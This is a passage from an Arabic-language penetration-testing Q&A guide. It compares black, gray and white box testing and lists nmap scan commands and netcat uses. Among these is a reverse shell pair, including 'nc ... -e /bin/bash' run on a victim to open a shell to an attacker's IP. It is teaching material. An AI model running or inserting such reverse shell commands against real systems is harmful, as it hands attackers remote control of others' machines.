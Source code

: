 **جدول المقارنة:**
```
┌────────────────┬──────────┬──────────┬──────────┐
│                │Black Box │Gray Box  │White Box │
├────────────────┼──────────┼──────────┼──────────┤
│ Knowledge      │   None   │ Partial  │  Full    │
│ Time needed    │   Long   │  Medium  │  Short   │
│ Cost           │   Low    │  Medium  │  High    │
│ Thoroughness   │   Low    │  Medium  │  High    │
│ Realism        │   High   │  Medium  │  Low     │
│ Code access    │   No     │  Maybe   │  Yes     │
└────────────────┴──────────┴──────────┴──────────┘
```

---

### س23: ما هي أدوات Penetration Testing الشائعة؟

**الإجابة:**

**1. Network Scanning:**

**Nmap (Network Mapper):**
```bash
# Basic scan
nmap 192.168.1.1

# Aggressive scan with OS detection
nmap -A 192.168.1.1

# Scan all ports
nmap -p- 192.168.1.1

# Vulnerability scan
nmap --script vuln 192.168.1.1

# Scan a range
nmap 192.168.1.1-254

# Output to file
nmap -oN output.txt 192.168.1.1
```

**Netcat:**
```bash
# Banner grabbing
nc -v 192.168.1.1 80

# Port scanning
nc -zv 192.168.1.1 1-1000

# Reverse shell (attacker)
nc -lvp 4444

# Reverse shell (victim)
nc 192.168.1.5 4444 -e /bin/bash
```
